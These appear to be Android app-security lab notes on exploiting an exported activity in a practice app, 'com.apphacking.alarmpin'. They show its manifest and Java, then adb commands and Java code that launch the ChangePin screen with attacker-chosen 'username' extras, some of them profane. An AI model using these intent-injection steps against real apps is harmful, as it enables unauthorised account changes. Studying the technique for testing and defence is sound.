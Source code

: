 

- java code
```java
Intent intent = getIntent();
username = intent.getStringExtra("username");
```
- AndoridMainfest
```xml
<activity android:name=".ChangePin" android:exported="true">
  <intent-filter>
    <action android:name="com.apphacking.changePin"/>
    <category android:name="android.intent.category.DEFAULT"/>
  </intent-filter>
</activity>
```

### open activity and use Extras in shell
```powershell
# explicit intent is an intent to specfic app
am start-activity -n <package name>/.<activity name> --es "paramter" "value"
am start-activity -n com.apphacking.alarmpin/.ChangePin --es "paramter" "value"

# implicit intent is an intent to be recived by appropiate apps
am start-activity -a <intent action name> --es "paramter" "value"
am start-activity -a <intent action name> -c <intent category name> --es "paramter" "value"

am start-activity -a com.apphacking.changePin  --es "username" "hacked"
am start-activity -a com.apphacking.changePin -c android.intent.category.DEFAULT  --es "username" "fuck"
```

### open activity and use Extras in another app
```java
// explicit intent
Intent I = new Intent();
ComponentName C = new ComponentName("<app package name>", "<activity name>");
I.setComponent(C);
I.putExtra("paramter", "value");
startActivity(I);

// example
Intent I = new Intent();
ComponentName C = new ComponentName("com.apphacking.alarmpin", "com.apphacking.alarmpin.ChangePin");
I.setComponent(C);
I.putExtra("username", "fucker");
startActivity(I);

// implicit intent
Intent intent = new Intent();
intent.setAction("<intent action name>"); 
intent.addCategory(<intent category name>);  
intent.putExtra("paramter", "value");        
startActivity(intent); 

// example
Intent intent = new Intent();
intent.setAction("com.apphacking.changePin"); 
intent.addCategory(Intent.CATEGORY_DEFAULT); 
intent.putExtra("username", "fuck");         
startActivity(intent); 
```
